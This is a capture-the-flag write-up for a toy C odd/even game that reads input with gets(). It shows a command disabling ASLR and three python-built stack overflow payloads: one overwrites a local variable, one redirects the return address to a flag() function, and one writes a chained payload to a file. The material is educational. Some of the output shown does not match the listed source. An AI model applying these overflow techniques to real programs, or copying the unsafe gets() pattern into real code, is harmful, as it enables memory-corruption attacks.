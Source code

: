 # Holjak

Turn off ASLR

```python
sudo sysctl -w kernel.randomize_va_space=0
```

```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>

void flag(void)
{
    puts("Well done, you have the flag!");
}

int main(int argc, char **argv)
{
    char input[20];
    printf("Hello this is holjak game\n");
    printf("Please choose between odd and even.(Type '1' or '2')\n");
    printf("1. Odd\n2. Even\n");
    srand(time(NULL));
    int answer = rand() % 2;
    gets(input);
    int guess = atoi(input) % 2;
    if (answer == 3)
    {
        flag();
        exit(1);
    }
    printf("G: %d, A: %d\n", guess, answer);
    if (guess == answer)
        printf("You are correct\n");
    else
        printf("You are wrong, too bad\n");
    exit(0);
}
```

This is a simple “holjak”(odd or even in Korean) game. The program chooses a random odd or evne number. The player has to guess if the number is odd or even.  The ‘answer’ variable is always 0 or 1, as it is a modulus of 2. If the player can exploit the game and tamper the answer so that it becomes 3, an impossible answer, they get the flag.

## Exploit

Simple bof.

```c
$ (python3 -c 'print("A" * 28 + "\x03")') | ./holjak
Hello this is holjak game
Please choose between odd and even.(Type '1' or '2')
1. Odd
2. Even
rand: 3
Well done, you have the flag!
```

## Exploit(modified)

```c
gdb-peda$ p flag
$2 = {void (void)} 0x555555555249 <flag>
```

Find the address of the flag and overwrite the return address.

```bash
teddy@yo-laptop:~/swSec/gitCTF/holjak$ (python3 -c 'print( "A" * 24 + "\x49\x52\x55\x55\x55\x55\x00\x00")') | ./holjak
Hello this is holjak game.

Please choose between odd and even.(Type '1' or '2')

1. Odd
2. Even
Your guess:
The answer is even!

You are wrong, too bad
Well done, you have the flag!
```


## Exploit(Modified 2)

```bash
 (python3 -c 'print( "A" * 24 + "\x69\x52\x55\x55\x55\x55\x00\x00" + "A" * 8 +  "\x09\x03\x00\x00\x00\x00\x00\x00")') > payload
```
